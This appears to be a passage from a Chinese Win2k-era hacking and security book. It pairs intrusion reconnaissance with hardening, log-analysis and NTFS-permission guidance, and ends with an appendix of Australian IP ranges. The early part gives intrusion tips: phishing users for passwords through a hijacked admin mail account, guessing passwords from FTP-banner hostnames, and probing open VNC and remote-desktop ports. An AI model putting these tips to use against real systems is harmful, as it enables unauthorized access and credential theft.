首先，从最上面可以看到，显示对方服务器的版本为 windows NT 5.0。这样，就可以判断对方为一台 win2k 的主机了。根据 13、17 这两个端口，我还可以肯定，对方的版本在 win2k svr 以上。这两个时间协议只有在服务器中才会提供。

接下来看端口，我们来挑选有用的端口（在这里，只提供一个思路供大家参考而已）：

- 1. 端口 25  
  该端口是 SMTP 服务的端口，默认情况下，端口 25 很难被利用，即使不需要验证，也只能利用它来发送一些垃圾邮件。  
  但是，不知道大家是否注意过，很多服务器上的 POP3 弱口令并不是普通的用户，而是 root 或 admin 之类的用户。这样的话，我们完全有可能利用这样的用户给一些其他的用户发送邮件，要一些有价值的东西，例如密码。  
  因为你要相信，偌大的一个网络中，总会有人不知道 root 或 admin 这个用户是没有人用的。如果运气够好，碰到这种人，那么我们可以轻松获得一个人的密码或是其他信息，这样为我们进一步进入对方网络提供了基础。

- 2. 端口 80  
  对微软的 IIS 来说，端口 80 简直是……呵呵，不说了，漏洞很多，大家自己看去吧。

- 3、端口 139

很多人经常问如何利用该端口进行入侵。其实，对于 win2k 来说，只要稍加设置，那么利用对付 win98 的那套 139 端口入侵的方法就不起作用了。

但是，通过 win2k 的 139 端口我们可以获得 N 多信息，例如对方主机名、对方用户列表和组列表、对方的时间或是共享资源等等，这些难道还不够重要吗？

- 4、端口 445

它算是 139 的一个后备端口，没有什么好说的。

接下来说几个我们可能会扫到的，但是这里没有的端口：

- 1、端口 389

通过它，我们能知道什么？

TCP 端口 389 是 AD（目录服务）使用 LDAP 传输时用的端口，因此，我们就可以断定该主机为 DC（域控制器）。

- 2、端口 53

这是 DNS 提供 zone 传输的端口。如果可以得到对方的完整域名的话，我们可以尝试使用“nslookup + 完整域名”这样的命令列出对方的主机（图 12-39）。


如上图（由于没有找到合适的主机，因此就拿 sohu 来试试，结果还真可以，命令为：nslookup www.sohu.com），看到这些 IP 了吗？这些 IP 地址就是属于 sohu 的域下的，不信？不信的话直接在 IE 里输入这些 IP 地址去试试就知道了，对应的全是一些 sohu 的二级域名。

通过这样的方法，我们可以获得域控制器（DC）下的子域。这样，如果不能直接攻取 DC 的话，我们可以转换目标攻击其子域（反正都在同一网络内嘛）。

- 3、端口 3389

呵呵，不用我说了吧，估计大家用的都很多了。

- 4、端口 5900

也不用客气了，这是 VNC 的端口，连一下试试，反正免费 ^^。

- 5、端口 23 和端口 21

端口 23 在没有获得对方用户名和密码的情况下，可用性其实不大；但是，如果对方的 FTP（端口 21 对应的服务）服务器使用了 IIS 中自带的 FTP 服务器的话，我们倒是可以得到一些东西哦（图 12-40）。


仔细观察上图哦，看到什么？不要告诉我你只看到了 IIS 的版本啊，IIS 的版本信息在我们实际的入侵当中用处并不大。

再仔细看，欢迎语中有“python”的字样，这个就是服务器的主机名。

不要小看这个主机名，不知道全世界有多少万台电脑都是使用主机名来做登录密码的，连一些大公司的服务器都有这样的哦（哎，我入侵过哦）。

- 6、其他端口

像一些木马端口，呵呵，就不用我教了吧？还有很多管理员喜欢修改默认端口。这样，如果我们遇到了一些生僻的、没有见过的端口的话，我们可以使用 `telnet ip port` 的方式来进行简单检测。

最后，说一下扫描器的问题。

那就是，大家不要轻易相信扫描器的结果，扫描器的误报实在太多了。而且，很多时候，只要人为做一点点小的手脚，扫描器就会出现误报。无论是哪一种扫描器，都存在这样的问题。

## 关于一些扫描工具的系统类型判断功能的质疑

很多人宁愿相信扫描器的报告也不相信自己。这样的朋友啊，如果不尽快改掉你的这个毛病的话，这辈子也别指望做什么 hacker 了。

现在很多扫描工具都有关于操作系统判断的功能，而且据说都是通过 TCP/IP 堆栈指纹进行判断的。但是，这也只能做一个大概的判断而已，具体的版本判断还是根据一些端口或是其他特征进行判断的。例如，在这里，我们来比对一下这两个扫描结果，就会知道我为什么说这些了（图 12-41）。


图 12-41

左边的结果中，就断定了系统为 windows NT 5.0（即 win2k），而为什么右边就只能判断为 windows NT x.x 呢？

比对一下端口就会发现了，端口 135 是 NT 和 win2k 中都有的端口，而端口 445 就不是这样了。在 NT 中，还没有引入 445 端口这个概念。所以我也怀疑，如果在 NT 上用 NC 开个 445 端口监听的话，会不会将 NT 判断为 win2k 呢（不过这个需要在 139 端口关闭的前提下，因为扫描工具可以根据 NETBIOS 信息来判断端口的）。如果大家有兴趣的话，可以找一台 NETBIOS 开放的机器来针对其 139 端口进行一下单一端口的扫描。如果顺利的话，就可以轻松获得某机器的版本号）。

呵呵，说了这么多，只是希望大家能注意，有些时候，自己凭借自己的经验和知识来判断会比使用扫描工具要好得多。

## 如何设置权限以保护我的个人文件？

在 windows NT 以后的 windows 系统中，引入了 NTFS 磁盘格式这种概念。NTFS 磁盘最大的优点就在于其安全性好，可以通过设置 NTFS 权限来达到保护文件不被非法用户或是未授权用户访问或修改。

### 设置权限的基本条件

操作系统为 windows NT 或是 win2k 的任意版本，磁盘格式为 NTFS。

如果磁盘格式为 FAT32 的话，可以使用命令：`CONVERT volume /FS:NTFS` 来将磁盘转换为 NTFS 格式。转换过程中，不会造成原磁盘中的文件丢失或损坏。

右键磁盘分区并选择“属性”，可以用来查看并确定当前的文件格式是否为 NTFS（图 12-42）。


图 12-42

## 如何进行基本的权限设置

右键选择一个 NTFS 分区，并选择属性，再选择“安全”选项卡（图 12-43）。在这里，就可以进行最基本的 NTFS 权限设置了。


图 12-43

在这里，通过添加或是删除用户，并勾选下面的“权限”框中的各项，就可以对某个用户进行权限设置了（注意，如果想设置权限的话，必须保证你是该计算机的管理员）。**注意**：我们不但可以添加/删除某个用户，并针对某个用户进行权限设置，还可以通过添加/删除组来对某个组进行权限设置。

## 继承权限的设置

在 NTFS 分区下，新建一个 test 文件夹，里面随便放上一些文件。然后，右键点选该文件夹，选择属性，再选择安全选项卡。在这里会发现，比刚才见到的权限设置选项卡多了一个选择（图 12-44），这里的内容是：允许将来自父系的可继承权限传给该对象。


图 12-44

如果勾选该项的话，那么对该文件夹的访问权限将和该文件夹上一级目录（在这里，就是刚才我们进行设置了权限的磁盘）的权限相同。这里，我们称其为继承了父系的权限（就是继承了上一级目录的权限设置）。如果我们不想继承的话，把勾去掉，然后自己再进行设置就可以了。

## 取得所有权

使用 NTFS 格式的朋友可能遇到过这样的情况：我们将一个 NTFS 磁盘设置为只有当前的管理员可以访问，然后我们又新建了一个管理员。但是，这时候用新建的管理员登录后却发现，我们不能访问 NTFS 磁盘了。有人认为这是权限上设置出现了错误，于是马上格式化硬盘或是转换磁盘格式等等，其实这完全没有必要。还是来到磁盘的安全选项卡中，在这里我们点“高级”按钮，然后再选择“所有者”选项卡，会看到下面列出了当前的所有管理员账号（图 12-45）。在这里，我们只要选择当前使用的管理员账号，并勾选下面的“替换子容器及对象的所有者”，并点应用就可以了。


图 12-45

这时候，我们就可以对该磁盘进行权限设置了。

这个过程叫做“取得所有权”。简单地说，原来该分区（或文件）的所有权归该分区（或文件）的创建者所有。然而，我们取得所有权之后，该分区（或文件）的所有者就是我们当前的用户了。所以，我们可以对该分区（或文件）进行权限设置了。**注意**：取得所有权这个过程，只有管理员才可以做到，其他的用户是不行的。

## 对磁盘权限进行更细致的设置

右键 NTFS 分区，选属性，安全，然后点高级，来到“访问控制设置”中的“权限”选项卡。在这里，会列出一些用户的权限（图 12-46）。双击要编辑的用户权限那一行，这时候会出现“权限项”的选项卡（图 12-47）。


在这里，我们不但可以进行细致的权限设置，而且还可以对权限的应用级别进行设置。

以上这些就是基本的权限设置方法了。没什么技术在里面，但是当多个用户和组进行交叉的时候，设置权限就要特别地小心了。另外，在权限的设置中还有很多原则，我在这里没有说到，需要大家自己体会体会，学习学习了，呵呵。

## 如何在内部网络中架设 web 服务器？

这是一个问得比较多的问题。在这里，我们分析一下，利用正当的手段来完成这个任务。

## 为什么在内部网络中架设服务器会变得困难？

首先，我们应该先了解在内网中架设服务器为什么困难。只要对这方面稍有了解就不难理解：由于内部网络中的主机没有真实合法的、在网上唯一可作为标识的 IP 地址，所以 Internet 上的主机将不能正常访问。

但是我们知道，一个内网接入 Internet 的主机（通常就是网关设备）一定会拥有一个真实唯一的 IP 地址。大家是不是想过，如果这个 IP 地址能属于你该有多好。呵呵，不要紧，虽然这个 IP 不属于你，但是我们完全可以利用它来为我们提供服务。

内部网络架设服务器的模型（图 12-48）。


这张图并不难理解。内部主机 A，IP 地址为 1.1.1.7；其网关 B，内部 IP 地址为 1.1.1.1；而在 Internet 上的一台主机 C，想要访问主机 A 的 web 服务器。（这里值得注意的两个地方，那就是我为主机 A 和网关 B 定义的两个 IP 地址均是指其在内部网络中使用的 IP 地址，至于网关 B 在 Internet 上的 IP 地址我们没有必要写出来）。

## 解决方案

## 方案一、代理服务器

在这个内部网络中，唯一可以直接与 Internet 进行通信的就是网关 B 了。因此，我们可以将网关 B 做成一个代理服务器。由于网关 B 不但连接入了 Internet，在另外一边它还接入了这个局域网内，那么只要使用它作为代理，访问内部主机 A 便不是问题了。

步骤：在 IE 里设置好代理（方法说过 N 多次了，不重复了），然后直接在 IE 的地址栏中输入主机 A 的 IP 地址 1.1.1.7。这样一来，就可以访问到主机 A 的 web 服务器了。

## 方案二、端口重定向

像方案一中的方法比较容易实现，但是却有一定的缺点。在这里，我们使用端口重定向的方法。我们需要知道网关设备 B 接入 Internet 端口上的 IP 地址，而且还需要在网关 B 上运行一个端口重定向的程序。

端口重定向的程序比较多，不一一列举了，只说一下思路：将网关 B 的端口 80 重定向到内部主机 A 的端口 80 上。这样，当 Internet 上的主机 C 在 IE 中输入网关 B 接入 Internet 端的 IP 地址的时候，便会被带到主机 A 的 web 服务器上。

这个方法也比较简单，但是当网关 B 上同时也提供 web 服务的时候，就没有这么容易了。因为我们不可能再将网关 B 的 80 端口重定向到主机 A 的 80 端口上了，这时候只能换个端口了。

## 方案三、web 页面转向

这个方法在很多地方都在用。首先，在网关 B 上启动 web 服务，并且做一个转向页面，该页面转向的位置就是主机 A。

这样，当 Internet 上的主机 C 访问网关 B 的时候，该页面会起作用，自动将页面转到主机 A 的 web 页面上。当然，该方法存在着和方案二相同的缺陷。

暂时，比较简单而且实用的方法就这三种，希望大家能找到适合自己的解决方案。另外，我们可以根据同样的道理，无论是 FTP 服务器还是 web 服务器，我们都可以用类似这三种方案的方法来解决。


## 如何分析日志和 log 文件记录的内容？


## 日志的作用

日志就是用来记录东西的，记录什么呢？当然是不同的日志记录不同的内容啦。日志是有分工的。例如，应用程序日志，就是记录那些成功运行或是运行失败的应用程序的。

当然，也并不是所有的事都会被日志记录下来。

## 日志的位置：

```
C:\WINNT\system32\LogFiles\
W3SVC1
```

这里是 web 服务的日志。

## win2k部分

`C:\WINNT\system32\LogFiles\MSFTPSVC1`

这下面即 FTP 服务日志。另外，在控制面板→管理工具→日志查看器中，还可以查看大量的日志信息。对 win2k 来说，这些是一些比较有实质性的日志；另外其他的还有，例如 Task Scheduler 服务日志，这类日志对于被入侵后或系统出现故障时候的分析价值不大，就不列出了。

前面已经说过日志的作用了，但是这里实际上不是重复其作用的，而是想对一些人说明一个问题。因为，我见过不少人，当他们隔了 N 久后突然闲着没事去看日志的时候，发现自己的日志很多，就会大呼救命，以为自己被人入侵或是系统出现了什么故障。

我已经说过了，针对一些程序或服务，无论其失败或是成功都会有日志的，因此，如果有朋友遇见上述情况的话，很有可能是因为你手懒造成的。但是，我这样说并不是让大家没事就乱删日志，如果真是每隔一天就删一次，那么如果第二天突然出现服务启动失败这种情况的话，我们都找不到前一天的日志进行比对，这样也是不好的。

## 日志查看的方法

FTP 和 Web 服务的日志的命名方法相似，例如：ex030320.log，这就说明该日志是 2003 年 03 月 20 日记录下来的。针对 Web 服务的日志，基本上都是 GET 请求的记录，例如，看到这样的信息 GET /x.asp 200（前半部截掉了），这就可以判断，这个请求就是要求查看 x.asp 页面，而后半部的 200 则表示该请求成功了。其他的日志大同小异。

大家可以自己看看，只要细心，很容易的。查看 FTP 日志也很简单，但是，需要注意：大家仔细观察会发现，FTP 日志中都是类似这样的信息 127.0.0.1 [18]USER python 331，这里值得注意的就是最后的数字 331。只要我们知道了 FTP 返回码的含义，查看 FTP 日志就不难了。

## 日志查看器中的日志信息

日志查看器中，在应用程序日志和系统日志中，有三类日志：

- 普通信息（被标识为“信息”），一般是返回成功的信息的日志。
- 错误信息（被标识为“错误”），服务启动失败、程序运行失败，或是启动的程序找不到等错误原因都会被记录下来，这就形成了错误信息的内容。
- 严重警告（被标识为“警告”），一般在系统日志中比较常见，这里记录着系统认为比较严重的错误信息。

在系统出现故障的时候，我们应该注意最后一类信息，因为，只有错误严重到危害系统的时候，系统才会将其记录为“警告”信息的。

如果由于你被人入侵而分析日志的话，建议分析第一类信息，这类信息中，记录着大部分都是成功的日志信息，对被入侵的主机来说，入侵者的成功之处就是你的失败之处，所以，我们应该把重点放在这里。

## 日志的分析

> “MS Telnet 服务已成功启动。”

图 12-49

对这条信息，看起来好像并不难理解。这就是系统记录下的信息，告诉我们 telnet 服务器已经启动。

这里，只是举了一个简单的例子而已，当然，很多的日志都不像这条日志这样简单的。所以，分析日志也需要一定的知识基础，这个就要靠大家的学习了。

另外，如果在日志分析中碰到难点的话，为大家提供两个地方进行查询：

第一个地方，就是 win2k 中自带的帮助，它可以帮你解决很多问题，把日志中你认为的关键字在帮助中进行搜索，这样，就可以找到相关知识，对你分析日志一定有很大帮助。

另外一个地方，很权威的地方：http://support.microsoft.com，这是微软为我们提供的，不过这里是英文的，练好你的英文哦。在这里，我们可以进行搜索，搜索的时候也是有技巧的，打开你无法读懂的日志信息，注意日志的“事件 ID”后面，事件 ID 后都会有一个号，这就是事件 ID 号，在 http://support.microsoft.com 的搜索栏上输入 ID 号进行搜索就可以了，一般情况下都会搜出很多的。

说了半天，也不知道是不是废话\~\~\~

不过，大家如果按我说的做的话，大部分日志都应该不在话下了。

## 如何进行 win2k 的安全配置？

这个问题好像在很多地方都能见到，而且，关于 win2k 安全配置的文章也很多，但是，很可惜，那些文章都是写给网管看的，文章的作者大概没有注意到，中国网络组成的大块群体是在个人用户上，所以，在这里，我针对个人用户的 win2k 系统的安全配置做一下详细地讲解，希望能合大家的口味。

## 讲解对象

现在，大家大部分是在使用 win2k pro 和 win2k svr 这两个版本。对个人用户来说，这两个版本的差别其实不大（注意，只是针对个人用户来说），但是，其实 win2k pro 和 win2k svr 在一些地方的区别是非常大的，尤其是在服务上。因此，这里以 win2k svr 为讲解对象。当然，同时也会照顾到 pro 版本的个人用户的。

**说明：**在下面的讲解过程中，我将假设用户将系统安装在 C 盘，除非有特殊说明。

## 系统的安装

对个人用户来说，安装系统的过程基本上是在没有连接网络的情况下，所以说，这里基本上没有什么好说的。只是安装时文件夹的选择，默认安装为 C:\WINNT，如果大家认为有必要的话，最好将 WINNT 文件夹改名，随便改什么都好（注意哦，我这里说的是在安装过程中修改的）。

在安装过程中，会要求输入 administrator 的密码，大家不要手懒，在这里给系统加个强悍的密码，就是给你的大门上了一把坚固的锁。

## 磁盘格式的选择

针对个人用户来说，我不推荐 NTFS 格式的磁盘，虽然它能带来更好的安全性，但是，那些都是针对服务器来说的，所以，作为个人用户，选择使用 FAT32 格式的磁盘就已经足够了。如果大家认为自己真的有重要文件需要加密的话，在 win2k 下，我个人是不推荐使用加密软件的，大家可以将其中一个磁盘转换为 NTFS 分区，将文件放在那里，使用 EFS 加密，但是，千万不要忘记导出你的证书。如果没有导出证书的话，当系统崩溃并重装系统的时候，你将无法打开原来使用了 EFS 加密的文件或文件夹（关于 EFS 加密的方法和证书的导出、导入在第 1 章已经进行过讲解，此处不再重复）。

另外，不得不说的就是磁盘大小的选择，虽然磁盘大小的选择不会直接影响到系统的安全性，但是，它却和系统的稳定性有密切的关系。这里，建议将安装系统的 C 盘大小设置在 4G 左右，如果硬盘空间小的话，也要将 C 盘设置在 3G 以上，并且，在安装完成后，尽量少将不必要的软件安装在 C 盘，要保持 C 盘有 800M（最好能超过 1G）的空余空间，因为，系统的虚拟内存不但要占用空间，而且，在使用很多软件的时候，软件本身都会在硬盘上开辟缓冲区，如果磁盘空间不够大的话，会引起很多问题，例如，接收到虚拟内存不足的提示，导致一些软件无法正常运行。

> **注：**XP 的安装空间比 win2k 要大，安装前，希望大家尽量将 C 盘分区设置在 4G 以上。

## win2k 的服务

安装中，基本上只要注意到上面提及的问题就可以了。接下来，说一下 win2k 服务的问题。

大家都清楚，win2k 之所以容易被入侵和攻击，其主要的一个原因就是 win2k 过多的服务。作为一个个人上网用户，我们实在没有必要开启那么多的服务，下面，我们就来看看，哪些服务是我们不需要的。（**注意：**下面我们说的关掉服务或是停掉服务的方法是：控制面板→管理工具→服务，然后，双击要关掉的服务，在“启动类型”中选择“已禁用”。）

- **Computer Browser**：用来维护网络上计算机列表的一个服务，如果你的机器没有在局域网中的话，那么，根本就不会用到这个服务，停掉它。另外，在局域网中的用户，如果你的机器不是长期开机或是作为某个服务器的话，开放它的作用也不大，而且，如果过多的 win2k 主机开启该服务的话还容易影响速度，关掉它好了。
- **IIS 服务**：对于 win2k pro 系统来说，默认不会安装 IIS 的，但是 win2k svr 则会安装，如果大家用不到的话，那么删掉它是最好的选择。删除方法：控制面板→添加/删除程序→添加/删除 Windows 组件，在这里，去掉“Internet 信息服务（IIS）”前面的勾（图 12-50）。
- **SNMP Service**：这个服务在 win2k pro 版本中默认是不启动的，但是，在 win2k svr 版本中会启动，而且，其默认密码为 public。前面，我们已经讲解过关于 SNMP 的利用和危害了，所以，留着它实在别扭，停掉它比较好（其实，即使是在 win2k svr 服务器中，也基本没有什么计算机能真正地用到 SNMP Service 这个服务【因为即使大家需要 SNMP，也会使用其他软件实现，win2k 自带的 SNMP 并不太好】；但是，却很少见有人停掉它，看来很多网管的安全意识还有待提高）。
- **Task Scheduler**：记得它吗？我们常用的 at 命令就是这个服务带的命令啊，用过了 at 命令后，大家都会认为它带来的威胁比较大吧，如果你真的这样认为的话，停掉这个服务吧。
- **Telnet**：win2k 中的 telnet 服务就是入侵者最爱的 shell 之一了，所以，不要给入侵者任何机会，停掉它。
- **Terminal Services**：win2k pro 中不会有该服务，但是 win2k svr 以上版本中会有，这是一个比 telnet 更爽的 shell 啊。对入侵者而言，停掉它；如果确定你不会用到它的话，删掉它更好，删除方法和删除 IIS 的方法一样。

会给我们带来危险的服务主要就这些了，另外，在安装一些软件的时候，一些软件中自带的功能也会被注册为服务来启动，所以，大家应该随时注意。

## 阻止来自网络的危险连接

阻止对本机一些端口的连接是在网上避免被攻击或是入侵的最常见方法，这里推荐使用防火墙和 win2k 自带的 IPsec 安全策略，关于这些，前面已经有详细讲述，不再重复。

## 当你的 win2k 崩溃的时候

为了避免系统崩溃或是出错后我们的手忙脚乱，在系统安装完成后，我们就应该做好任何一切坏的打算，时刻准备着我们的爱机为我们的事业而献身。

但是，我们的准备并不是盲目的。一般，对个人用户来说，系统崩溃都是因为系统文件损坏，其中，以注册表文件损坏最常见。

这里，我们采用备份的手段：开始→程序→附件→系统工具→备份（图 12-51），这里，选择备份向导，然后选择“只备份系统状态数据”（图 12-52），然后，按照提示进行就可以了。然后，我们就等出现了系统崩溃或是严重系统错误的时候拿出来恢复就可以了（要记得经常备份才好哦）。

图 12-51

图 12-52

对于常见的系统错误我们可以使用上面的方法来恢复，但是，如果系统出错严重到无法进入到 win2k 的 GUI 界面的地步的话，我们该怎么办呢？这样一来，我们就没有办法使用备份工具来恢复了，因此，我们只能换一个方法了，使用恢复控制台。

## 恢复控制台的安装

把 win2k 的光盘放入光驱中，然后使用如下命令：

`X:\windows 2000\I386\winnt32 /cmdcons`

（这里，X 是指光驱的盘符，windows 2000 则指用户安装的 win2k 所在文件夹，总之，只要定位 winnt32.exe 这个文件就可以了）。运行后，会出现对话框，询问用户是否安装（图 12-53），这里当然选择“是”了，然后，按提示进行安装就可以了。完成后，重新启动计算机，会发现，在启动菜单里，除了当前的系统外，还会多出一个 win2k 的恢复控制台选项。进入这里，我们就可以做一些故障恢复工作了，不过，都是在命令行下的。

图 12-53

关于恢复控制台的命令，大家可以自己在 win2k 的帮助中进行搜索，或是到微软的官方站点上进行搜索，在那里会有讲解，这里就不细说了。

## 其他应该注意的问题

上面的一些工作可以说是未雨绸缪，除了这些，还是不够的，我们还要经常注意一些其他的问题：

- 经常查看计算机上的用户帐号及相关信息。  
  如果你的计算机是多人使用的话，关注一下帐号信息，你会发现，这是很有用的。

- 经常查看日志。  
  经常有人因为系统出错或是应用程序出错等问题闹得寝食不安（呵呵，好严重），但是，他们却很少查看日志。前面，我已经说过了日志的重要性和查看方法，希望大家能做到经常查看 win2k 的日志。

- 清除垃圾。  
  win2k 的临时文件夹，IE 的临时文件和 Cookie，这些不但是垃圾，而且，还会造成一系列的安全问题，因此，不得不定期删除这些文件。

- 定期整理磁盘。  
  每 4–5 个月进行一次磁盘整理，这是比较合适的。磁盘整理的内容主要就是磁盘查错和磁盘碎片整理，我们使用 win2k 自带的工具就好了。不过，并不提倡使用 win2k 的磁盘整理程序中的“分析”功能。

- 学会使用 win2k 带给我们的先进武器。  
  用户如果是刚从 win98 转换到 win2k 的话，难免会对一些 win2k 的“自动化”先进武器不够熟悉，其实，很多时候，系统自带的才是最好的：
  - 组策略：开始→运行→gpedit.msc，看过就知道，好多好东西。
  - 本地安全策略：控制面板→管理工具→本地安全策略，也是个好东西。
  - 事件查看器：控制面板→管理工具→事件查看器，都说过了，知道怎么用了吧。
  - Support Tools：win2k 光盘的 win2k 目录下的 `\SUPPORT\TOOLS\SETUP.EXE` 位置，安装完成后，会发现多了好多好多的好工具。
  - 网络监视器：控制面板→管理工具→网络监视器，一个本地的 sniffer（win2k svr 以上版本中才有的）。

以上这些大概就是大家平时能用到的工具了，希望大家抽时间好好研究学习^^，这些东西，确实是不错哦。

## IP list

### 澳大利亚

| 左列 | 右列 |
|---|---|
| 61.8.0.0–61.8.127.255  61.8.0/17  U  PNIC | 202.2.16.0–202.2.31.255  202.2.16/20  U  PNIC |
| 61.12.0.0–61.12.255.255  61.12/16  U  PNIC | 202.2.56.0–202.2.59.255  202.2.56/22  U  PNIC |
| 202.0.0.0–202.0.7.255  202.0.0/21  U  PNIC | 202.3.0.0–202.3.15.255  202.3.0/20  U  PNIC |
| 202.0.8.0–202.0.9.255  202.0.8/23  U  PNIC | 202.3.32.0–202.3.63.255  202.3.32/19  U  PNIC |
| 202.0.11.0–202.0.11.255  202.0.11/24  U  PNIC | 202.3.64.0–202.3.67.255  202.3.64/22  U  PNIC |
| 202.0.12.0–202.0.15.255  202.0.12/22  U  PNIC | 202.4.64.0–202.4.95.255  202.4.64/19  U  PNIC |
| 202.0.64.0–202.0.64.255  202.0.64/24  U  PNIC | 202.5.0.0–202.5.31.255  202.5.0/19  U  PNIC |
| 202.0.67.0–202.0.67.255  202.0.67/24  U  PNIC | 202.5.96.0–202.5.127.255  202.5.96/19  U  PNIC |
| 202.0.68.0–202.0.69.255  202.0.68/23  U  PNIC | 202.6.3.0–202.6.3.255  202.6.3/24  U  PNIC |
| 202.0.70.0–202.0.70.255  202.0.70/24  U  PNIC | 202.6.4.0–202.6.4.255  202.6.4/24  U  PNIC |
| 202.0.74.0–202.0.75.255  202.0.74/23  U  PNIC | 202.6.8.0–202.6.15.255  202.6.8/21  U  PNIC |
| 202.0.82.0–202.0.83.255  202.0.82/23  U  PNIC | 202.6.16.0–202.6.31.255  202.6.16/20  U  PNIC |
| 202.0.85.0–202.0.85.255  202.0.85/24  U  PNIC | 202.6.32.0–202.6.63.255  202.6.32/19  U  PNIC |
| 202.0.86.0–202.0.87.255  202.0.86/23  U  PNIC | 202.6.64.0–202.6.79.255  202.6.64/20  U  PNIC |
| 202.0.90.0–202.0.90.255  202.0.90/24  U  PNIC | 202.6.80.0–202.6.83.255  202.6.80/22  U  PNIC |
| 202.0.92.0–202.0.92.255  202.0.92/24  U  PNIC | 202.6.91.0–202.6.91.255  202.6.91/24  U  PNIC |
| 202.0.95.0–202.0.95.255  202.0.95/24  U  PNIC | 202.6.92.0–202.6.92.255  202.6.92/24  U  PNIC |
| 202.0.96.0–202.0.96.255  202.0.96/24  U  PNIC | 202.6.106.0–202.6.106.255  202.6.106/24  U  PNIC |
| 202.0.98.0–202.0.99.255  202.0.98/23  U  PNIC | 202.6.108.0–202.6.108.255  202.6.108/24  U  PNIC |
| 202.0.101.0–202.0.101.255  202.0.101/24  U  PNIC | 202.6.112.0–202.6.115.255  202.6.112/22  U  PNIC |
| 202.0.102.0–202.0.102.255  202.0.102/24  U  PNIC | 202.7.8.0–202.7.15.255  202.7.8/21  U  PNIC |
| 202.0.105.0–202.0.105.255  202.0.105/24  U  PNIC | 202.7.64.0–202.7.95.255  202.7.64/19  U  PNIC |
| 202.0.106.0–202.0.107.255  202.0.106/23  U  PNIC | 202.7.160.0–202.7.191.255  202.7.160/19  U  PNIC |
| 202.0.108.0–202.0.109.255  202.0.108/23  U  PNIC | 202.7.192.0–202.7.255.255  202.7.192/18  U  PNIC |
| 202.0.113.0–202.0.113.255  202.0.113/24  U  PNIC | 202.8.16.0–202.8.31.255  202.8.16/20  U  PNIC |
| 202.0.114.0–202.0.115.255  202.0.114/23  U  PNIC | 202.8.32.0–202.8.39.255  202.8.32/21  U  PNIC |
| 202.0.148.0–202.0.148.255  202.0.148/24  U  PNIC | 202.8.96.0–202.8.127.255  202.8.96/19  U  PNIC |
| 202.0.154.0–202.0.154.255  202.0.154/24  U  PNIC | 202.9.0.0–202.9.63.255  202.9.0/18  U  PNIC |
| 202.1.0.0–202.1.3.255  202.1.0/22  U  PNIC | 202.9.224.0–202.9.255.255  202.9.224/19  U  PNIC |
| 202.1.4.0–202.1.4.255  202.1.4/24  U  PNIC | 202.10.0.0–202.10.255.255  202.10/16  U  PNIC |
| 202.1.16.0–202.1.31.255  202.1.16/20  U  PNIC | 202.12.1.0–202.12.1.255  202.12.1/24  U  PNIC |
| 202.1.224.0–202.1.231.255  202.1.224/21  U  PNIC | 202.12.22.0–202.12.23.255  202.12.22/23  U  PNIC |
| 202.2.0.0–202.2.3.255  202.2.0/22  U  PNIC | 202.12.24.0–202.12.25.255  202.12.24/23  U  PNIC |

# 附录

### 澳大利亚

| 左列 | 右列 |
|---|---|
| 202.12.32.0–202.12.63.255  202.12.32/19  U  PNIC | 202.14.116.0–202.14.116.255  202.14.116/24  U  PNIC |
| 202.12.64.0–202.12.67.255  202.12.64/22  U  PNIC | 202.14.118.0–202.14.119.255  202.14.118/23  U  PNIC |
| 202.12.68.0–202.12.69.255  202.12.68/23  U  PNIC | 202.14.120.0–202.14.123.255  202.14.120/22  U  PNIC |
| 202.12.71.0–202.12.71.255  202.12.71/24  U  PNIC | 202.14.124.0–202.14.125.255  202.14.124/23  U  PNIC |
| 202.12.72.0–202.12.72.255  202.12.72/24  U  PNIC | 202.14.126.0–202.14.126.255  202.14.126/24  U  PNIC |
| 202.12.75.0–202.12.75.255  202.12.75/24  U  PNIC | 202.14.128.0–202.14.131.255  202.14.128/22  U  PNIC |
| 202.12.86.0–202.12.87.255  202.12.86/23  U  PNIC | 202.14.132.0–202.14.133.255  202.14.132/23  U  PNIC |
| 202.12.88.0–202.12.89.255  202.12.88/23  U  PNIC | 202.14.134.0–202.14.134.255  202.14.134/24  U  PNIC |
| 202.12.90.0–202.12.90.255  202.12.90/24  U  PNIC | 202.14.137.0–202.14.137.255  202.14.137/24  U  PNIC |
| 202.12.92.0–202.12.93.255  202.12.92/23  U  PNIC | 202.14.138.0–202.14.139.255  202.14.138/23  U  PNIC |
| 202.12.98.0–202.12.99.255  202.12.98/23  U  PNIC | 202.14.143.0–202.14.143.255  202.14.143/24  U  PNIC |
| 202.12.100.0–202.12.100.255  202.12.100/24  U  PNIC | 202.14.144.0–202.14.147.255  202.14.144/22  U  PNIC |
| 202.12.106.0–202.12.107.255  202.12.106/23  U  PNIC | 202.14.148.0–202.14.148.255  202.14.148/24  U  PNIC |
| 202.12.109.0–202.12.109.255  202.12.109/24  U  PNIC | 202.14.151.0–202.14.151.255  202.14.151/24  U  PNIC |
| 202.12.110.0–202.12.111.255  202.12.110/23  U  PNIC | 202.14.152.0–202.14.152.255  202.14.152/24  U  PNIC |
| 202.12.112.0–202.12.115.255  202.12.112/22  U  PNIC | 202.14.155.0–202.14.155.255  202.14.155/24  U  PNIC |
| 202.12.119.0–202.12.119.255  202.12.119/24  U  PNIC | 202.14.156.0–202.14.159.255  202.14.156/22  U  PNIC |
| 202.12.120.0–202.12.121.255  202.12.120/23  U  PNIC | 202.14.160.0–202.14.161.255  202.14.160/23  U  PNIC |
| 202.12.125.0–202.12.125.255  202.12.125/24  U  PNIC | 202.14.166.0–202.14.166.255  202.14.166/24  U  PNIC |
| 202.12.126.0–202.12.127.255  202.12.126/23  U  PNIC | 202.14.169.0–202.14.169.255  202.14.169/24  U  PNIC |
| 202.12.128.0–202.12.191.255  202.12.128/18  U  PNIC | 202.14.170.0–202.14.171.255  202.14.170/23  U  PNIC |
| 202.12.192.0–202.12.223.255  202.12.192/19  U  PNIC | 202.14.172.0–202.14.175.255  202.14.172/22  U  PNIC |
| 202.12.224.0–202.12.239.255  202.12.224/20  U  PNIC | 202.14.176.0–202.14.191.255  202.14.176/20  U  PNIC |
| 202.12.240.0–202.12.241.255  202.12.240/23  U  PNIC | 202.14.192.0–202.14.207.255  202.14.192/20  U  PNIC |
| 202.12.242.0–202.12.242.255  202.12.242/24  U  PNIC | 202.14.208.0–202.14.215.255  202.14.208/21  U  PNIC |
| 202.14.0.0–202.14.7.255  202.14.0/21  U  PNIC | 202.14.219.0–202.14.219.255  202.14.219/24  U  PNIC |
| 202.14.64.0–202.14.65.255  202.14.64/23  U  PNIC | 202.14.220.0–202.14.221.255  202.14.220/23  U  PNIC |
